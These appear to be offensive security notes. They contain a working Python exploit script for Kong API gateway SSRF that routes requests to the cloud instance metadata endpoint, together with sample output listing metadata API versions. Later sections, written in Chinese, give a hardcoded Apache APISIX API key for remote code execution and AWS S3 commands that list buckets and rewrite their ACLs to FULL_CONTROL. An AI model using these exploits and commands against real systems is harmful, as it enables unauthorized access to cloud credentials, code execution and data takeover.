[+] Route Added [+]
[+] Testing Kong for Metadata Proxy
curl http://127.0.0.1/foo/ -H "Host: metadata.local" -H "Metadata: true" -H "Metadata-Flavor: Google"
1.0
2007-01-19
2007-03-01
2007-08-29
2007-10-10
2007-12-15
2008-02-01
2008-09-01
2009-04-04
2011-01-01
2011-05-01
2012-01-12
2014-02-25
2014-11-05
2015-10-20
2016-04-19
2016-06-30
2016-09-02
2018-03-28
2018-08-17
2018-09-24
2019-10-01
latest
[+] To remove added routes and services do the following
curl -iX DELETE http://127.0.0.1:8001/routes/metadata-endpoint
curl -iX DELETE http://127.0.0.1:8001/services/metadata-endpoint
#!/usr/bin/env python
#
# Kong SSRF
#
#
# By @RandomRobbieBF
#
#
import requests
import json
import sys
import argparse
import re
import os.path
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
session = requests.Session()
parser = argparse.ArgumentParser()
parser.add_argument("-u", "--url", required=True,help="Kong APi url can be http or https")
parser.add_argument("-s", "--ssrf", default="http://169.254.169.254", required=False,help="What Internal URL to proxy http:// or https://")
parser.add_argument("-p", "--proxy",required=False, help="Proxy for debugging")
args = parser.parse_args()
url = args.url
proxy = args.proxy
ssrfurl = args.ssrf
if proxy:
proxy = args.proxy
else:
proxy = ""
http_proxy = proxy
proxyDict = {
"http" : http_proxy,
"https" : http_proxy,
"ftp" : http_proxy
}
def add_service(url):
paramsPost = {"name":"metadata-endpoint","url":""+ssrfurl+""}
headers = {"User-Agent":"curl/7.64.1","Connection":"close","Accept":"*/*","Content-Type":"application/x-www-form-urlencoded"}
response = session.post(""+url+"/services", data=paramsPost, headers=headers,verify=False, proxies=proxyDict)
if response.status_code == 201:
print ("[+] Service Added [+]")
y = json.loads(response.text)
try:
id = y["id"]
return id
except:
print ("[-] Error Parsing ID of new service [-]")
sys.exit(0)
else:
print("Error:\n\n"+response.text+"")
sys.exit(0)
def add_route(url,id):
paramsPostDict = {"hosts[]":"metadata.local","paths[]":"/foo","service.id":""+id+"","name":"metadata-endpoint"}
paramsPost = "&".join("%s=%s" % (k,v) for k,v in paramsPostDict.items())
headers = {"User-Agent":"curl/7.64.1","Connection":"close","Accept":"*/*","Content-Type":"application/x-www-form-urlencoded"}
response = session.post(""+url+"/routes/", data=paramsPost, headers=headers,verify=False, proxies=proxyDict)
if response.status_code == 201:
print ("[+] Route Added [+]")
y = json.loads(response.text)
rid = y["id"]
t = url.replace(":8001","")
print("\n[+] Testing Kong for Metadata Proxy")
cmd = ('curl '+t+'/foo/ -H "Host: metadata.local" -H "Metadata: true" -H "Metadata-Flavor: Google"')
print(cmd)
os.system(cmd)
print ("\n\n[+] To remove added routes and services do the following")
print("curl -iX DELETE "+url+"/routes/metadata-endpoint")
print("curl -iX DELETE "+url+"/services/metadata-endpoint")
else:
print("Error:\n\n"+response.text+"")
sys.exit(0)
id = add_service(url)
add_route(url,id)
Apache APISIX
默认端口9000，指纹直接/apisix
APIKEY硬编码RCE
添加一个http头：X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
其他漏洞
网上搜
尝试列出对象
aws s3 ls s3://xxxx/duixiang
尝试读取对象ACL
aws s3api get-object-acl --bucket xxxx--key duixiang
尝试修改对象ACL
根据查看的结果，修改下面的属性然后保存为json
"Permission": "FULL_CONTROL"
aws s3api put-object-acl --bucket xxxx--key duixiang--access-control-policy file://acl.json
尝试列出桶
aws s3api list-objects --bucket xxxx
查看桶的ACL
aws s3api get-bucket-acl --bucket xxxx
尝试修改桶ACL
aws s3api put-bucket-acl --bucket xxxx --access-control-policy file://acl.json
根据查看的结果，修改下面的属性然后保存为json
"Permission": "FULL_CONTROL"
aws s3api get-bucket-policy --bucket xxxx --output text | python3 -m json.tool